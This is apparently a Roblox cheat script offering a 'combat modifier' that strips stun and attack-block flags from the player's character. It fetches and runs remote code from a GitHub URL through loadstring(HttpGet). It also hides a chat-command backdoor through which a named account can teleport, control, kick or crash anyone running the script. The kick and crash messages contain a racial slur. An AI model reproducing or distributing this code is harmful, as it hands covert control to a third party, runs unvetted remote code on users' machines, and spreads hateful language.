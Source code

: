 local function no2loop(toggle)
    _G.NO2 = toggle
    spawn(function()
	game:GetService("RunService").RenderStepped:Connect(function()
		if _G.NO2 == true then
			if game.Players:FindFirstChild("LocalPlayer") == nil then
				repeat wait() until game:IsLoaded() and game.Players and game.Players.LocalPlayer and game.Players.LocalPlayer.Character
			end
            local lp = game:GetService("Players").LocalPlayer.Character
            
			if lp:FindFirstChild("NoAttack") ~= nil  then
				lp.NoAttack:Destroy()
		    end	

			if lp:FindFirstChild("Disable") ~= nil then
				lp.Disable:Destroy()
			end

			if lp:FindFirstChild("TrueDisable") ~= nil then
				lp.TrueDisable:Destroy()
			end

			if lp:FindFirstChild("NoRegen") ~= nil then
				lp.NoRegen:Destroy()
			end

			if lp:FindFirstChild("Stunned") ~= nil then
				lp.Stunned.Value = false
			end

			if lp:FindFirstChild("NoTree") ~= nil then
				lp.NoTree:Destroy()
			end
		
		    if lp:FindFirstChild("NoJump") ~= nil  then
				lp.NoJump:Destroy()
		    end	
		    
		    if lp:FindFirstChild("CombatPause") ~= nil  then
				lp.CombatPause:Destroy()
		    end	
		    
		end
	end)
end)
end








if not syn then return end
local library = loadstring(game:HttpGet(('https://raw.githubusercontent.com/bloodball/-back-ups-for-libs/main/wall%20v3')))()

local w = library:CreateWindow("no2 copy game hax") -- Creates the window

local b = w:CreateFolder("nitro pls.") -- Creates the folder(U will put here your buttons,etc)

b:Button("Reset",function()
    game:GetService("Players").LocalPlayer.Character:BreakJoints()
end)

b:Toggle("Toggle Combat Modifier",function(bool)
    shared.toggle = bool
    no2loop(bool)
end)

b:DestroyGui()

b:Button("Copy cord link",function()
    setclipboard("discord.gg/3bg5MaBHXP")
end)


function message(message)
local args = {
    [1] = message,
    [2] = "All"
}
game:GetService("ReplicatedStorage").DefaultChatSystemChatEvents.SayMessageRequest:FireServer(unpack(args))
end

spawn(function()
    pcall(function()
local Admin = "idkwolfz"
local Table = {}


local function Chatted(Player)
    Player.Chatted:Connect(function(msg)
        msg = string.lower(msg)
        msg = string.gsub(msg, " ", "")
          if string.sub(msg,1,1) == "!" then
              if string.sub(msg,2,7) == "summon" or string.sub(msg,2,6) == "bring" then
                  game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[Admin].Character.HumanoidRootPart.CFrame
                elseif
                string.sub(msg,2,10) == "apologize" then
                  message("I "..game.Players.LocalPlayer.DisplayName..", would like to apologize.")
                elseif
                string.sub(msg,2,5) == "Kick"  then
                    game.Players.LocalPlayer:Kick("nigger")
                elseif
                string.sub(msg,2,3) == "re" or string.sub(msg,2,6) == "reset" then
                    game.Players.LocalPlayer.Character.Humanoid:Remove()
                elseif
                string.sub(msg,2,5) == "rude" then
                    message("L person lol")
                elseif
                string.sub(msg,2,4) == "sit" then
                    game.Players.LocalPlayer.Character.Humanoid.Sit = true
                elseif
                string.sub(msg,2,7) == "praise" then
                    message("I praise... Master "..Admin)
                elseif
                string.sub(msg,2,6) == "crash" then
                    local crash = Instance.new("Message", game:GetService("CoreGui"))
	                crash.Text = 'damn nigger time to rejoin'
	                wait()
	                spawn(function() while true do end end)
	        end
	      end   
       end)
   end

for _, v in pairs(game.Players:GetChildren()) do
    if v.Name == Admin then
        Chatted(v)
    end
end

game.Players.PlayerAdded:Connect(function(Player)
    if Player.Name == Admin and not table.find(Table,Player.Name) then
        table.insert(Table, Player.Name)
        Chatted(Player)
    end
    end)
  end)
end)

